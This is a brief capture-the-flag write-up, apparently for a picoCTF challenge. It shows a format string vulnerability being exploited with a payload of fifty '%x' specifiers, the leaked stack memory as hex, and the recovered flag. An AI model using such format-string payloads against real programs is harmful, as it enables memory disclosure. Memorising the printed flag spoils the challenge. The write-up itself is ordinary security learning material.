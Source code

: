 # Format string vuln

giving it `%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x` as input 

```
$ python -c "print('%x'*50)"

```
- Output
</br>

```
84a6350804b00080489c3f7fbed80ffffffff184a4160f7fcc110f7fbedc7084a5180284a633
084a63506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e326663313061
3130ff9b007df7ff9af8f7fcc440905aa0010f7e5bce9f7fcd0c0f7fbe5c0f7fbe000ff9b41e
8f7e4c68df7fbe5c08048ecaff9b41f40f7fe0f09804b000f7fbe000f7fbee20ff9b4228f7fe
6d50f7fbf890905aa00f7fbe000804b000ff9b4228
```

- Convert Hex to ascii online
```
¦5°H?¾Øÿÿÿñ¤Ì¾Üp¥¦3JcPocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿ}÷ÿø÷üÄ@Z ~[ÎÍ¾\¾ù´~Lhß¾\ÊÿAôàð°÷ûà÷ûî ÿB(÷þmP÷ûøZ ¾°ÿB(
```

running the `./script.py` gives the flag

```
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```
